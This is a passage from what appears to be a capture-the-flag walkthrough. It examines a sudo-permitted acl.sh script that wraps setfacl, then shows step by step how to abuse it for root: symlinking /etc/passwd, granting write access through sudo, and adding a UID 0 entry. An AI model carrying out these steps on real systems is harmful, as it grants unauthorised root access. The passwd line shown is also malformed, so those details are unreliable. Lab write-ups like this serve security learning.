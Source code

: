     - This section tells us that the file argument named $target needs to be '/home/m**/*' and does not allow directory traversal '..'.

    #### acl.sh (continued)

    ```bash
    # Check if the path is a file
    if [ ! -f "$target" ]; then
        /usr/bin/echo "Target must be a file."
        exit 1
    fi
    ```

    - This section tells us that $target must be a file.

    #### acl.sh (continued)

    ```bash
    /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
    ```

    - This last section tells us it will run '/usr/bin/setfacl'

- Now that we have a better understanding of the acl.sh script, we can begin crafting our next attack.

    - We will make a symlink of the '/etc/passwd' file, from within m**'s home directory, I named my symlink axolotl.

    #### Terminal

    ```bash
    ln -s /etc/passwd /home/m**/axolotl
    ```

    - Next, we will use the acl.sh script to give our symlink file write permissions.

    #### Terminal

    ```bash
    sudo /opt/acl.sh m** rw /home/mtz/axolotl
    ```

    - Now, we will add an entry to file.

    #### Terminal

    ```bash
    nano axolotl
    ```

    - Add the m** user as a root user by using the following syntax: user::0:0:/root:/bin/bash

    - Escalate privilege by using: su m**
    
    - Check that you have root permissions: id
